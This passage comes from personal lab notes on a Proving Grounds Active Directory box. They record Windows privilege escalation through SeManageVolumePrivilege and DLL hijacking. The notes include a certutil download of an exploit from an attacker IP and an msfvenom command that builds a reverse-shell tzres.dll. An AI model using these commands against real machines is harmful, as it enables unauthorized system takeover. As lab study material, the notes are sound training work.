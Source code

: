 Yay we're now the svc_mssql user!

![[PG/Active Directory/attachments/Pasted image 20250707200510.png]]

Grab the flags 

![[PG/Active Directory/attachments/Pasted image 20250707200754.png]]

# Priv Esc

![[PG/Active Directory/attachments/Pasted image 20250707200644.png]]
- SeMachineAccountPrivilege and SeManageVolumePrivilege are both useful 

## SeManageVolumePrivilege 

Using this tool https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9---------------------------------------

Transfer this to the box
```
certutil -urlcache -split -f http://192.168.45.152/SeManageVolumeExploit.exe
```

Execute it 

```
.\SeManageVolumeExploit.exe
```

![[PG/Active Directory/attachments/Pasted image 20250707201923.png]]

Now we can write to the C drive 

Check permissions on C:\Windows\system32

```
icacls C:\Windows\System32
```

![[PG/Active Directory/attachments/Pasted image 20250707202045.png]]

With full write access to this folder, we can hijack any dll. I'll use the same one as the writeup..
tzres.dll
### DLL Hijacking

Targeting systeminfo's tzres.dll

Create a malicious dll with msfvenom 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=8888 -f dll -o tzres.dll
```
![[PG/Active Directory/attachments/Pasted image 20250707202651.png]]
Transfer this to the `C:\Windows\System32\wbem` directory 

